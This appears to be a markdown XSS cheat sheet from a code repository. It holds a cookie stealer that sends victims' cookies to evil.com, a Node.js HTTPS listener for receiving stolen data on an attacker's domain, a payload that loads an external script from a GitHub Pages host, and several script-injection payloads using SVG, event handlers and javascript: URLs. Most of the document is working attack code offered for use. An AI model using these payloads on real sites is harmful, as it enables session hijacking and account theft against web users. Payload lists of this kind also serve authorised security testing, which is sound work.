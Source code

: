 ### Cookie Stealer Example:

- `GET` based interception (easiest and best to show Poc):

```js
// XSS cookie stealer POC
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```

- `POST` based interception (I am not responsible for what you do with this info):

1. Get ssl certitficates for your malicious domain: `sudo certbot certonly --standalone -d domain.tld`
2. Setup the listener with ssl certificates

```node
const https = require('https');
const fs = require('fs');

// Load the certificate and key
const cert = fs.readFileSync('cert.pem');
const key = fs.readFileSync('privkey.pem');

// Create the HTTPS server
const server = https.createServer({ cert, key }, (req, res) => {
  if (req.method === 'POST') {
    let data = '';
    req.on('data', (chunk) => {
      data += chunk;
    });
    req.on('end', () => {
      console.log(`Received data: ${data}`);
      res.writeHead(200, { 'Content-Type': 'text/plain' });
      res.end('Data received successfully!');
    });
  } else {
    res.writeHead(405, { 'Content-Type': 'text/plain' });
    res.end('Method not allowed!');
  }
});

// Listen on port 8080
server.listen(8080, () => {
  console.log('Server listening on port 8080');
});
```

### Payloads

1. **Inject External JavaScript without `<script>` Tag:**
   
```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://basedygt.github.io/xss.js'; document.head.appendChild(script);">
```

2. **Data Exfiltration through Image Source (when CSP is disabled):**

```html
<img src="https://evil.com/?data=" + encodeURIComponent(document.cookie)">
```

Vulnerable when

- Absence of Content-Security-Policy header in the response
- Presence of Content-Security-Policy header with a value of `default-src` or `none`

3. **CSS-Based XSS:**

```css
body { background-image: url('javascript:alert("XSS")'); }
```

4. **SVG XSS:**

```html
<svg/onload=alert(document.domain)>
```

5. **Event Handlers to Execute Payload:**

```html
<button onclick="alert('XSS')">Click Me</button>
```

6. **JavaScript Protocol Handler:**
   
```html
<a href="javascript:alert('XSS')">Click Me</a>
```
